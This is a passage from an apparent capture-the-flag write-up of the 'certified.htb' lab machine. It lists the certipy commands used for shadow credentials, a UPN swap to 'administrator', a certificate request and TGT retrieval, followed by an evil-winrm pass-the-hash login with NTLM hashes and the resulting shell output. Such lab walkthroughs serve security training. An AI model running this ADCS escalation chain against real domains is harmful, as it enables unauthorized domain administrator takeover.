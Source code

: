 ```bash
certipy-ad shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator
```

### 3. **Updating UPN of ca_operator**

    Updated the UPN (UserPrincipalName) of ca_operator to administrator:

```bash
certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn administrator
```

### 4. **Requesting Administrator Certificate**

    Requested a certificate for the administrator account using `certipy-ad`:

```bash
certipy-ad req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication
```

### 5. **Restoring Original UPN**

    Restored ca_operator’s UPN to its original value:

```bash
certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn ca_operator@certified.htb
```

### 6. **Obtaining Administrator TGT**

    Authenticated as administrator with the new certificate:

```bash
certipy-ad auth -pfx administrator.pfx -domain certified.htb
```

### 7. **Logging in as Administrator**

    Logged in with Evil-WinRM as administrator:

```bash
evil-winrm -u administrator -H 0d5b49608bbce1751f708748f67e2d34 -i 10.10.11.41
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> ls


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       10/22/2024   1:15 PM                3D Objects
d-r---       10/22/2024   1:15 PM                Contacts
d-r---       10/22/2024   1:15 PM                Desktop
d-r---       10/22/2024   1:15 PM                Documents
d-r---       10/22/2024   1:15 PM                Downloads
d-r---       10/22/2024   1:15 PM                Favorites
d-r---       10/22/2024   1:15 PM                Links
d-r---       10/22/2024   1:15 PM                Music
d-r---       10/22/2024   1:15 PM                Pictures
d-r---       10/22/2024   1:15 PM                Saved Games
d-r---       10/22/2024   1:15 PM                Searches
d-r---       10/22/2024   1:15 PM                Videos
```